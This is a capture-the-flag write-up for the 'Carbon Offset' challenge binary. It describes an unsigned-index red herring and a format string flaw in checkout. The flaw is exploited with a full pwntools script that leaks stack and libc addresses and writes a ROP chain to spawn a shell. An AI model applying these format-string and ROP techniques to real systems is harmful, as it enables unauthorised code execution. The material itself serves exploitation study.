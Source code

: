 # Carbon Offset

## Challenge

We're given a binary and a Dockerfile.

The binary allows us to create, view, edit, and delete flights.
There is also a checkout function, which asks for some more information, then deletes all existing flights.

## Red Herring

Creating a flight adds the flight to the first empty slot in the array, then increments the number of flights by 1.

Deleting a flight removes a flight from any index that is less than the current number of flights, then decrements the number of flights by 1.

You can modify flights at any index less than the current number of flights.
Interestingly, the modify function uses an unsigned comparison for this, while most other checks use a signed comparison.

This means you can access out of bounds indices if you can call modify while the number of flights is negative.

You can achieve a negative number of flights by creating at least 3 flights, then freeing index 0 twice.
This will result in the number of flights being 1, even though there are 2 flights remaining in indices 1 and 2.
Now, if we call checkout, this will free the remaining 2 flights, giving us a total of -1 flights.
We can now modify a flight at indices greater than normally allowed.

Unfortunately, our range is still fairly limited because the index is passed as a 32-bit integer.
This means we cannot access lower addresses or dynamic shared objects.

Without more bugs, this was not exploitable.

## Solution

There is a format string vulnerability in the checkout function, as it passes the user's name as the first argument to printf.

The name is stored on heap, so we cannot add our own addresses on the stack for arbitrary writes.
Instead, we can manipulate existing stack pointers, usually storing RBP values, to write values to the stack.

By modifying the lower bytes of an RBP, we can write a ropchain one word at a time.

When writing our ropchain, we noticed the previous values we had written were being cleared.
We worked around this by reversing the order in which we wrote our ropchain.
This worked and we were able to spawn a shell.

It turns out that the main loop had been setting a stack variable to 0.
This stack variable was located at RBP-4, which always happened to be the previously written value, as we were editting RBP as part of the writing process.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 152.96.7.2 --port 1337 carbon_offset
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('carbon_offset')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '152.96.7.51'
port = int(args.PORT or 1337)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
break *0x555555554000+0x1aa8
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

libc = ELF("libc.so.6")

def add_flight(depart=b'a', destination=b'a', date=b'a', price=1):
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b':\n', depart)
    io.sendlineafter(b':\n', destination)
    io.sendlineafter(b':\n', date)
    io.sendlineafter(b':\n', str(price).encode())

def show_flights():
    io.sendlineafter(b'> ', b'2')
    return io.recvuntil(b'|---------------------------------------------------|\n\n')

def remove_flight(index):
    io.sendlineafter(b'> ', b'3')
    io.sendlineafter(b'?\n', str(index).encode())

def modify_flight(index, depart=b'a', destination=b'a', date=b'a', price=1):
    io.sendlineafter(b'> ', b'4')
    io.sendlineafter(b'?\n', str(index).encode())
    io.sendlineafter(b':\n', depart)
    io.sendlineafter(b':\n', destination)
    io.sendlineafter(b':\n', date)
    io.sendlineafter(b':\n', str(price).encode())

def checkout(name=b'a', street=b'a', zipcode=1, city=b'a', country=b'a'):
    io.sendlineafter(b'> ', b'5')
    io.sendlineafter(b':\n', name)
    io.sendlineafter(b':\n', street)
    io.sendlineafter(b':\n', str(zipcode).encode())
    io.sendlineafter(b':\n', city)
    io.sendlineafter(b':\n', country)
    return io.recvuntil(b'|------------------------------------------------------------|\n\n')

def menu_exit():
    io.sendlineafter(b'> ', b'6')

io = start()

# get negative num_flights
"""
add_flight()
add_flight()
add_flight()
add_flight()
remove_flight(0)
remove_flight(0)
remove_flight(0)
checkout()
"""

"""
modify_flight(0xfffffff8)

flight_array = exe.address + 0x4080
offset = (exe.got['stdout'] - flight_array) % (2**64)
index = offset >> 3
print(hex(offset))
print(index)
"""

def extract(raw):
    return (raw
        .replace(b"\n\nThank you for offseting your flights with us ", b'')
        .split(b"!\n|------------------------------------------------------------|\n")[0])

add_flight()
stack = int(extract(checkout(name=b"%8$p")), 0)
io.info("STACK : " + hex(stack))

add_flight()
libc.address = int(extract(checkout(name=b"%17$p")), 0) - libc.libc_start_main_return
io.info("LIBC : " + hex(libc.address))

add_flight()
print(hex(int(extract(checkout(name=b"%12$p")), 0)))

def write_word(offset, word):
    add_flight()
    checkout(name=f"%{(stack + 0x28 + offset) % 0x10000}c%8$hn".encode())

    add_flight()

    print(hex(u16(word)))
    if u16(word) == 0:
        name = f"%12$hn".encode()
    else:
        name = f"%{u16(word)}c%12$hn".encode()
    print(name)
    add_flight()
    checkout(name=name)

    add_flight()

rop = ROP(libc)
rop.raw(rop.ret)
rop.system(next(libc.search(b'/bin/sh')))
print(rop.dump())

for i in reversed(range(0, len(rop.chain()), 2)):
    write_word(i, rop.chain()[i:i+2])

menu_exit()

io.interactive()
```

## Flag

```
HL{624b54c8-343e-45a2-a856-c970ffcee148}
```
